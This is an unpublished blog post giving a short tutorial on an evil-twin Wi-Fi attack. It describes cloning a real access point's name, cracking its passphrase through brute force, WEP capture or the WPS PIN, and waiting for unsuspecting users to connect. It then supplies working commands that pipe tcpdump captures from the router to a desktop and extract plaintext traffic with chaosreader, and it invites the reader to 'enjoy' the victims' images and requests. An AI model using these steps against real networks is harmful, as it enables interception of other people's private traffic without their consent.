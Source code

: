 ```yaml
---
layout: post
published: false
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then `mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

computing a shared secret composite of a passphrase, a nonce and BSSID, without revealing any infomation about the passphrase, both Client and AP. This is also using a Key Exchange protocol to avoid replay/MITM attack.

- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
